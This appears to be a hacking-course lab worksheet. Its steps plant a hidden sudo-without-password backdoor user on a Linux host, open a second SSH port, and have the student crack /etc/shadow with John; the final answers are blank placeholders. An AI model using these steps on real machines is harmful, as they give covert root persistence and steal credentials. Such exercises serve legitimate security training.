 **Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `useradd -M sysd`

2. Give your secret user a password: 
    - `passwd sysd`

3. Give your secret user a system UID < 1000:
    - `usermod -u 666 sysd`

4. Give your secret user the same GID:
   - `groupmod -g 666 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `visudo`
 ```bash
   sysd ALL=(ALL) NOPASSWD:ALL
 ```

6. Test that `sudo` access works without your password:

    - `sudo -l`


**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

```bash
#       $OpenBSD: sshd_config,v 1.101 2017/03/14 07:19:07 djm Exp $

# This is the sshd server system-wide configuration file.  See
# sshd_config(5) for more information.

# This sshd was compiled with PATH=/usr/bin:/bin:/usr/sbin:/sbin

# The strategy used for options in the default sshd_config shipped with
# OpenSSH is to specify options with their default value where
# possible, but leave them commented.  Uncommented options override the
# default value.

Port 22
Port 2222
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::
```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemctl restart sshd`

2. Exit the `root` account:
    - `logout`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su root`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `Your solution command here`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `Your solution command here`

